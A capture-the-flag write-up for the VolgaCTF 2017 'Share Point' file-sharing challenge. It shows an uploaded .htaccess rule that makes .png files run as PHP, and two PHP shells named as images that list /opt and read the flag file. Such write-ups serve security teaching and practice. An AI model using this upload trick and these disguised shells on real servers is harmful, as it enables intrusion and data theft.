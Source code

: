 # Share Point - 200 points

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru

Hints:
* flag's location is optimal

### Solution
Regular Expression for authorization:  
`login [\w+]{4,}`  
`pass  [\w+]{8,+}`  
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_1.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_2.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_3.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_4.png)
file ".htaccess":
```
AddHandler application/x-httpd-php .png
```
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_5.png)
file "ls.png":
```php
<?php
$tmp = `ls /opt`;
header("Content-type: image/png");
$name = "ls.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
file "cat.png":
```php
<?php
$tmp = `cat /opt/flag.txt`;
header("Content-type: image/png");
$name = "cat.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_6.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_7.png)
![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_8.png)
